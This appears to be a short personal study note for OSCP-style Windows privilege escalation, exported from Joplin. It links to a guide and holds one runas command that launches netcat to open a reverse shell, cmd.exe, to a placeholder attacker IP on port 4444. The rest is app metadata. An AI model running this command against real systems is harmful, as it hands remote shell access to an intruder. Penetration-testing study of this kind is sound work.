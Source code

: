 Windows Techniques

https://blog.adithyanak.com/oscp-preparation-guide/windows-privilege-escalation

![7f7a6116ba9c0686eeb15869ed9dfb23.png](:/105b5332a73648dcbab924774c4f8ffb)

> C:\Windows\System32\runas.exe /env /noprofile /user:<username>  <password>  "c:\\users\\Public\\nc.exe -nc &lt;attacker-ip&gt; 4444 -e cmd.exe"

![f0052db1453f6b0ee5cc49e29b99bd9b.png](:/ac24ce9a2c934c51b443151e67046c2b)

id: 36e8b1abdf2f4ed19ec5e03306ca9155
parent_id: 986d75298ac542b38075779da7f69186
created_time: 2022-01-28T08:37:34.258Z
updated_time: 2022-01-28T08:40:52.100Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T08:37:34.258Z
user_updated_time: 2022-01-28T08:40:52.100Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1